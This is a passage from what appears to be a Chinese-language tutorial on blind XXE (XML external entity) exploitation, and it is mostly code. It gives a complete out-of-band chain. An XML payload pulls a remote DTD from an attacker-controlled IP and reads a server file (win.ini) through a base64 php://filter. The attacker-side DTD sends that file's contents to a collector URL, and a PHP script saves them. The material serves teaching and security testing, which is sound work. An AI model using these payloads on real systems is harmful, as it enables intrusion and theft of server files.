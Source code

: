 ```php
增加：
error_reporting(0);                   
注释：
#echo $result;
```

进行运行上面的POC，发现没有回显。

![image-20211128155606338](XXE.assets/image-20211128155606338.png)

现在很多xxe漏洞都是没有回显的，下面是再没有回显的时候可以的利用方式。

**方法一：**

对于传统的XXE来说，要求攻击者只有在服务器有回显或者报错的基础上才能使用XXE漏洞来读取服务器端文件，如果没有回显则可以使用Blind XXE漏洞来构建一条带外信道提取数据。

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE message [    
<!ENTITY % remote SYSTEM "http://192.168.220.128/test.dtd">
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=c:/windows/win.ini">
%remote;
]>
<user><username>&send;</username><password>admin</password></user>
```

在自己的服务器上搭建test.dtd

```xml-dtd
<!ENTITY % all "<!ENTITY send SYSTEM 'http://192.168.220.128/test.php?file=%file;'>">%all;
```

test.php

```php
<?php 
file_put_contents("test.txt", $_GET['file']) ; 
?>
```
